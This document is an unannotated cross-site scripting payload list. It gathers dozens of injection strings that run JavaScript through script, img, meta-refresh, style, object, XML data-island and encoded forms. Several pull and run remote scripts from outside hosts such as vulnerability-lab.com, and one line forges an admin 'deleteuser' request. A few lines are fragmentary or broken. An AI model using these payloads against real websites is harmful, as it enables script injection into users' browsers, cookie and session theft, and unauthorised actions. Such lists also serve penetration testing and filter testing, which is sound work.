<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

Cross Site Scripting Strings  Action Script:
       <object type="application/x-shockwave-flash" data="http://www.vulnerability-lab.com/hack.swf" width="300" height="300">
           <param name="movie" value="http://www.subhohalder.com/xysecteam.swf" />
                 <param name="quality" value="high" />
                 <param name="scale" value="noscale" />
                 <param name="salign" value="LT" />
       <param name="allowScriptAccess" value="always" />
                 <param name="menu" value="false" />
            </object>


<SCRIPT SRC=http://vulnerability-lab.com/CrossSiteScripting.js></SCRIPT>
<<SCRIPT>alert("CrossSiteScripting");//<</SCRIPT>
<SCRIPT SRC=http://vulnerability-lab.com/CrossSiteScripting.js?<B>
<SCRIPT SRC=//vulnerability-lab.com/.js>
<SCRIPT>a=/CrossSiteScripting/ alert(a.source)</SCRIPT>
<SCRIPT a=">" SRC="http://vulnerability-lab.com/CrossSiteScripting.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://vulnerability-lab.com/CrossSiteScripting.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://vulnerability-lab.com/CrossSiteScripting.js"></SCRIPT>
</TITLE><SCRIPT>alert("CrossSiteScripting");</SCRIPT>

<IMG SRC="javascript:alert('CrossSiteScripting');">
<IMG SRC=javascript:alert('CrossSiteScripting')>
<IMG SRC=JaVaScRiPt:alert('CrossSiteScripting')>
<IMG SRC=javascript:alert("CrossSiteScripting")>
<IMG SRC=`javascript:alert("RM'CrossSiteScripting'")`>
<IMG """><SCRIPT>alert("CrossSiteScripting")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC="jav  ascript:alert('CrossSiteScripting');">
<IMG SRC="jav&#x09;ascript:alert('CrossSiteScripting');">
<IMG SRC="jav&#x0A;ascript:alert('CrossSiteScripting');">
<IMG SRC="jav&#x0D;ascript:alert('CrossSiteScripting');">
<IMG SRC="   javascript:alert('CrossSiteScripting');">
<IMG SRC="javascript:alert('CrossSiteScripting')"
<IMG DYNSRC="javascript:alert('CrossSiteScripting')">
<IMG LOWSRC="javascript:alert('CrossSiteScripting')">
<IMG SRC='vbscript:msgbox("CrossSiteScripting")'>
<IMG SRC="mocha:[code]">
<IMG SRC="livescript:[code]">

<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('CrossSiteScripting');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('CrossSiteScripting');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('CrossSiteScripting');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=jAvAsCriPt:aLeRt('CroSsSiteScrIpting');">
<META HTTP-EQUIV="Link" Content="<http://vulnerability-lab.com/CrossSiteScripting.css>; REL=stylesheet">
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('CrossSiteScripting')</SCRIPT>">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('CrossSiteScripting');+ADw-/SCRIPT+AD4-

<OBJECT TYPE="text/x-scriptlet" DATA="http://vulnerability-lab.com/scriptlet.html"></OBJECT>
<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:alert('CrossSiteScripting')></OBJECT>

<STYLE>@im\port'\ja\vasc\ript:alert("CrossSiteScripting")';</STYLE>
<STYLE>@import'http://vulnerability-lab.com/CrossSiteScripting.css';</STYLE>
<STYLE TYPE="text/javascript">alert('CrossSiteScripting');</STYLE>
<STYLE>.CrossSiteScripting{background-image:url("javascript:alert('CrossSiteScripting')");}</STYLE><A CLASS=CrossSiteScripting></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('CrossSiteScripting')")}</STYLE>
<STYLE>li {list-style-image: url("javascript:alert('CrossSiteScripting')");}</STYLE><UL><LI>CrossSiteScripting
<STYLE>BODY{-moz-binding:url("http://vulnerability-lab.com/CrossSiteScriptingmoz.xml#CrossSiteScripting")}</STYLE>

<DIV STYLE="background-image: url(javascript:alert('CrossSiteScripting'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="background-image: url(javascript:alert('CrossSiteScripting'))">
<DIV STYLE="width: expression(alert('CrossSiteScripting'));">
<LAYER SRC="http://vulnerability-lab.com/script.html"></LAYER>
<LINK REL="stylesheet" HREF="javascript:alert('CrossSiteScripting');">
<LINK REL="stylesheet" HREF="http://vulnerability-lab.com/CrossSiteScripting.css">
<BODY BACKGROUND="javascript:alert('CrossSiteScripting')">
<BODY ONLOAD=alert('CrossSiteScripting')>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("CrossSiteScripting")>
<iframe src=http://vulnerability-lab.com/index.html <

<TABLE BACKGROUND="javascript:alert('CrossSiteScripting')">
<TABLE><TD BACKGROUND="javascript:alert('CrossSiteScripting')">
<BGSOUND SRC="javascript:alert('CrossSiteScripting');">
<BR SIZE="&{alert('CrossSiteScripting')}">

<A HREF="http://server.com/">CrossSiteScripting</A>
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">CrossSiteScripting</A>
<A HREF="http://1113982867/">CrossSiteScripting</A>
<A HREF="javascript:document.location='http://www.vulnerability-lab.com/'">CrossSiteScripting</A>
<BASE HREF="javascript:alert('CrossSiteScripting');//">
\";alert('CrossSiteScripting');//
<INPUT TYPE="IMAGE" SRC="javascript:alert('CrossSiteScripting');">
<CrossSiteScripting STYLE="behavior: url(CrossSiteScripting.htc);">

¼script¾alert(¢CrossSiteScripting¢)¼/script¾

<IMG STYLE="CrossSiteScripting:expr/*CrossSiteScripting*/ession(alert('CrossSiteScripting'))">
<CrossSiteScripting STYLE="CrossSiteScripting:expression(alert('CrossSiteScripting'))">  exp/*<A STYLE='no\CrossSiteScripting:noCrossSiteScripting("*//*");  CrossSiteScripting:ex&#x2F;*CrossSiteScripting*//*/*/pression(alert("CrossSiteScripting"))'>

a="get";
b="URL(\"";
c="javascript:";
d="alert('CrossSiteScripting');\")";
eval(v+l+a+b);
<HTML xmlns:CrossSiteScripting>
  <?import namespace="CrossSiteScripting" implementation="http://ha.ckers.org/CrossSiteScripting.htc">
  <CrossSiteScripting:CrossSiteScripting>CrossSiteScripting</CrossSiteScripting:CrossSiteScripting>
<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('CrossSiteScripting');">]]>
</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

<XML ID="CrossSiteScripting"><I><B><IMG SRC="javas<!-- -->cript:alert('CrossSiteScripting')"></B></I></XML>
<SPAN DATASRC="#CrossSiteScripting" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

<XML SRC="CrossSiteScriptingtest.xml" ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="CrossSiteScripting<SCRIPT DEFER>alert("CrossSiteScripting")</SCRIPT>">
</BODY></HTML>
<SCRIPT SRC="http://vulnerability-lab.com/CrossSiteScripting.jpg"></SCRIPT>
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://vulnerability-lab.com/CrossSiteScripting.js></SCRIPT>'"-->
<? echo('<SCR)';
echo('IPT>alert("CrossSiteScripting")</SCRIPT>'); ?>
<IMG SRC="http://www.vulnerability-lab.com/file.php?variables=malicious">
Redirect 302 /vlab.jpg http://vulnerability-lab.com/admin.asp&deleteuser


%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%74%65%73%74%2E%64%65%3E
&#x3C;&#x69;&#x66;&#x72;&#x61;&#x6D;&#x65;&#x20;&#x73;&#x72;&#x63;&#x3D;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x74;&#x65;&#x73;&#x74;&#x2E;&#x64;&#x65;&#x3E;
&#60&#105&#102&#114&#97&#109&#101&#32&#115&#114&#99&#61&#104&#116&#116&#112&#58&#47&#47&#116&#101&#115&#116&#46&#100&#101&#62
PGlmcmFtZSBzcmM9aHR0cDovL3Rlc3QuZGU+
